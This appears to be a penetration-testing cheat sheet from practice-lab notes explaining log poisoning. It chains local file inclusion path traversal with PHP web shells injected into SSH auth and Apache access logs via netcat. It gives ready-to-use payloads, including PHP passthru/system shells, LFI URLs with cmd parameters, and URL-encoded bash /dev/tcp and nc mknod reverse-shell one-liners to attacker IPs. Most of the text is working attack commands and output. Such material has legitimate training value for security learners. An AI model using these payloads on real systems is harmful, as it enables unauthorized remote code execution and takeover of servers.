


# Log Poisoning

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```


Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.


Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```


Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```



## Apache Access Log Poisoning

Start by poisoning the Apache2 access log with a PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ nc -nv 192.168.222.72 80
(UNKNOWN) [192.168.222.72] 80 (http) open
GET /<?php system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 04 Nov 2023 03:37:05 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>

```

View _/var/log/apache2/access.log_ to see the 400 GET request we sent through netcat.


Test RCE with the PHP web shell in the access log.

```bash
URL: http://192.168.222.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```


Use _revshellgen_ to generate a nc-mknod reverse shell one-liner.

```bash
# Generate reverse shell-oneliner
revshellgen -i 192.168.45.191 -p 9001 -t nc-mknod | tail -n 1

# URL encode the payload
urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.191 9001 1>/tmp/l"

# Run the following URL to get a reverse shell
URL: 192.168.170.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.191%209001%201%3E%2Ftmp%2Fl
```

After executing the payload in our PHP web shell we get a reverse shell on our netcat listener.


